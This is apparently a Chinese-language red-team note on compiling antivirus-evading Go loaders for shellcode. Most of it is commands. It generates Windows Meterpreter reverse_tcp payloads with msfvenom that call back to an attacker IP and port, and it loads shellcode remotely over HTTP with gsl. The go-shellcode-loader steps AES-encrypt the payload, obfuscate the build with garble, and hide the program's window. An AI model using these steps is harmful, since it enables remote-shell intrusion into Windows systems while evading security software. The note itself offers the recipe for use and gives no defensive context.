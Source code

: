   #### 直接编译
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f c
	代码转换成0x格式，粘贴到go.txt中保存为go格式
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/97.png)
	
	安装golang环境在shellcode目录执行
	>go build生成exe
  #### 编码编译
  	https://github.com/biggerduck/RedTeamNotes/blob/main/%E5%88%A9%E7%94%A8go%E5%8A%A0%E8%BD%BDshellcode%E5%85%8D%E6%9D%80.pdf
  #### 加载器
  ##### go-shellcode
	https://github.com/brimstone/go-shellcode
	进入cmd/sc目录编译sc.exe
	>go build
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/98.png)

	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f hex -o shell.txt 
	加载器加载shellcode
	>sc.exe shellcode
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/99.png)
  ##### Gsl
	https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/gsl-sc-loader.zip
	>gsl -s SHELLCODE -hex msf生成hex格式
	>gsl -f shell.raw本地加载raw格式文件
	>gsl -f shell.hex -hex 本地加载hex格式文件
	>gsl -u http://192.168.0.108/1.raw 远程加载
	>gsl -u http://192.168.0.108/1.hex
  ##### go-shellcode-loader
  	https://github.com/HZzz2/go-shellcode-loader
	>git clone https://github.com/HZzz2/go-shellcode-loader.git
	>cd go-shellcode-loader
	//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
	>go install mvdan.cc/garble@latest   
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw
	>base64 -w 0 -i rev.raw > rev.bs64
	>cat rev.bs64
	复制到aes-sc.go中的51行替换payload
	运行aes-sc.go生成AES加密后的值
	>go run aes-sc.go
	复制输出的值到go-sc.go中的73行替换payload
	编译成exe可执行程序
	>garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go
	参数解释：
	garble(混淆库)：
	     -tiny                    删除额外信息
	     -literals               混淆文字
	     -seed=random   base64编码的随机种子 
	go：
	    -w                        去掉调试信息，不能gdb调试了
	    -s                         去掉符号表
	    -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）
	    -race                    使数据允许竞争检测
	编译后得到go-sc.exe